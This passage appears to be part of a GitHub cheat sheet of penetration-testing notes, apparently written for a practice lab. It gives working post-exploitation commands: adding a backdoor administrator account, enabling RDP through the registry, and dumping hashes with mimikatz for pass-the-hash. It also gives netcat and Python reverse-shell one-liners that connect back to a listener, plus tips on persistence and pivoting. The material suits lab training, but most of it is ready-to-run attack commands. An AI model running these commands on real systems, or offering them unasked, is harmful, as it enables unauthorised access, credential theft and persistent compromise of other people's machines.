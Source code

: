     - **FileZilla**: Look for **`FileZilla Server.xml`** (credentials may be plaintext/MD5).
2. **User Creation**:
    - Add an admin user for RDP/WinRM access:
        
        ```bash
        net user hacker Password123! /add
        net localgroup administrators hacker /add
        ```
        
    - Enable RDP if disabled:
        
        ```bash
        reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
        ```
        
3. **Pass-the-Hash**:
    - Dump hashes with **`mimikatz`** or **`secretsdump.py`** (Impacket) for lateral movement.

---

**General Tips**

- **Upgrade Shells**: Use tools like **`socat`**, **`script`**, or **`python -c 'import pty; pty.spawn("/bin/bash")'`** for stability.
- **Persistence**:
    - Linux: Cron jobs, SSH keys, backdoor binaries.
    - Windows: Scheduled tasks, registry run keys, WMI subscriptions.
- **Pivot**: Use the compromised host to attack internal networks (e.g., **`chisel`**, **`sshuttle`**).

**Key Takeaway**: Always aim to convert initial shells into native access (SSH, RDP, etc.) for better reliability and stealth.

---

## Linux  Practice Box

### Netcat

**A. reverse shell**

```bash
# Target (conncet back)
nc 10.10.61.237 8080 -e /bin/bash

# Attacker (Listener )
nc -lvnp 8080
```

<img width="1759" height="695" alt="image" src="https://github.com/user-attachments/assets/cf4549ed-2b3f-4c5b-95e4-84ffff155f56" />

[Python reverse shell (Linux only)](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)

```bash
export RHOST="10.10.21.122";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
